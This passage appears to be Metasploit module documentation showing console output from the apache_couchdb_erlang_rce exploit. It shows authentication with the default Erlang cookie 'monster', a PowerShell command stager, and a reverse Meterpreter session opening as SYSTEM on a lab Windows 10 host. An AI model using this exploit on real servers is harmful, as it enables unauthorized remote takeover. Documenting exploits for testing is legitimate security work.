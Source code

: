 ```
meterpreter > sysinfo
Computer        : DESKTOP-8ATHH6O
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Target: PowerShell Stager, Windows 10, Apache CouchDB 2.3.1
```
msf6 exploit(multi/http/apache_couchdb_erlang_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] 172.16.199.137:4369 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.199.137:4369 - Attempting to connect to the Erlang Port Mapper Daemon (EDPM) socket at: 172.16.199.137:4369...
[*] 172.16.199.137:4369 - Successfully found EDPM socket
[*] 172.16.199.137:4369 - Attempting to connect to the Erlang Server with an Erlang Server Cookie value of "monster" (default in vulnerable instances of Apache CouchDB)...
[*] 172.16.199.137:4369 - Connection successful
[*] 172.16.199.137:4369 - Erlang challenge and response completed successfully
[+] 172.16.199.137:4369 - The target is vulnerable. Successfully connected to the Erlang Server with cookie: "monster"
[*] 172.16.199.137:4369 - sending payload...
[*] 172.16.199.137:4369 - Command Stager progress -  20.94% done (2046/9770 bytes)
[*] 172.16.199.137:4369 - sending payload...
[*] 172.16.199.137:4369 - Command Stager progress -  41.88% done (4092/9770 bytes)
[*] 172.16.199.137:4369 - sending payload...
[*] 172.16.199.137:4369 - Command Stager progress -  62.82% done (6138/9770 bytes)
[*] 172.16.199.137:4369 - sending payload...
[*] 172.16.199.137:4369 - Command Stager progress -  83.77% done (8184/9770 bytes)
[*] 172.16.199.137:4369 - sending payload...
[*] Sending stage (222278 bytes) to 172.16.199.137
[*] Meterpreter session 12 opened (172.16.199.1:4444 -> 172.16.199.137:49773) at 2022-10-17 18:45:56 -0400
[*] 172.16.199.137:4369 - Command Stager progress - 100.00% done (9770/9770 bytes)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-8ATHH6O
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```
